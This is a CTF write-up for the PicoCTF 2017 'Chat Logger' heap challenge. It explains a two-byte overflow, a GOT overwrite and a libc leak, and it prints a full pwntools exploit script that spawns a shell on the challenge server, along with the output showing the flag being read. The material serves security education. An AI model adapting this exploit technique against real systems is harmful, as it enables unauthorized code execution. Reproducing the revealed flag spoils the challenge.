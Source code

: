 # PicoCTF_2017: Chat Logger

**Category:** Binary Exploitation

**Points:** 200

**Description:**

You've been given admin access to the chat logs for our organization to help clean up the language. See if you can get a shell on shell2017.picoctf.com:36069. [chat-logger](https://webshell2017.picoctf.com/static/b3322fd6f9446f38d9de16c803a75148/chat-logger)  [Source](https://webshell2017.picoctf.com/static/b3322fd6f9446f38d9de16c803a75148/server.c)

**Hint:**

- You should make some chat room log files to run this program locally.
- Learning about  [ptmalloc2](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)  might help. glibc uses a modified version of it.
- Bear in mind that fopen allocates memory and fclose frees it.

## Write-up

Another difficult binary exploitation challenge. It took me way too much time to spot buffer overflow and the exploitation part was even worse.

The vulnerable function is

void update_message(chat_message_t msg, char *new_text) {
    size_t len = strlen(new_text) + 1;
    if (len > msg->length) {
        msg->text = xrealloc(msg->text, normalize_size(len));
    }
    strncpy(msg->text+2, new_text, len);
    message_add_status(msg, '*');
}

Variable  `len`  contains our message size plus one, but  `msg->length`  also includes 2 bytes for message status. It gives us opportunity to overflow buffer by two bytes.

My first idea was to add two messages at the end of any chat. I hoped that they would be next to each other in the memory, so by overflowing the first one I could mark the second one as free. Then I could just expand the first message to overwrite  `chat_message_t`  structure of the other.  `chat_message_t`  contains pointer to the buffer, so I could put  `.got.plt`  address there and leak where  `libc`  was loaded.

Unfortunately the messages were put in some "random" places in memory. I thought that for some length of the buffers they would be written in a "correct" order, but I didn't manage to find such lengths.

Luckily first message buffer was just before its struct, so we could perform the attack using only one message (but I still had to send two messages, because otherwise the program was crashing for some mysterious reason).

To get offsets of libc functions we can use radare2 on the webshell.

```
system 0x41490
strtok 0x84a60

```

And with IDA we can find the address of  `.got.plt`  in the application.

```
strtok@.got.plt 601EC0

```

`strtok@.got.plt`  address will become the need address of first message buffer. Please note that we need to subtract 2 from it, because the program puts  `*` on first two bytes and it would break our pointer (we can do this, because preceding pointer is useless - it's for  `perror`  function).

After overwriting the address we just need to type  `/bin/sh`  and we get the shell.
**Final Exploit**
```python
#!/usr/bin/env python2
from pwn import *
r = remote("shell2017.picoctf.com",36069)
r.recv()
r.send("find 2 You're not that funny.\n")
r.recv()
r.send("add 1337 %s\n"%("A"*21))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("add 1337 EOT%s\n"%("-"*100))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("edit %s\n"%("A"*22))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("edit %s\n"%("A"*46+"\xbe\x1e\x60"))
r.recv()
r.send("chat 2\n")
res = r.recvuntil("EOT---")
r.recv()
strtok_libc = int(res.splitlines()[-2][-6:][::-1].encode('hex'),16)
libc_base = strtok_libc-0x84a60
system_libc = libc_base+0x41490
r.send("edit %s\n"%(hex(system_libc)[2:].decode('hex')[::-1]))
r.recv()
r.send("/bin/sh\n")
r.interactive()
```
```text
$ python chat.py 
[+] Opening connection to shell2017.picoctf.com on port 36069: Done
[*] Switching to interactive mode

> $ ls
chat-logger
flag.txt
room.0.log
room.1.log
xinetd_wrapper.sh
$ cat flag.txt
164579d8d535184967061cc94ec029c5
```
The flag is  `164579d8d535184967061cc94ec029c5`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTczNjQ5MTcwNCwtMTE4OTEwNDIzNl19
-->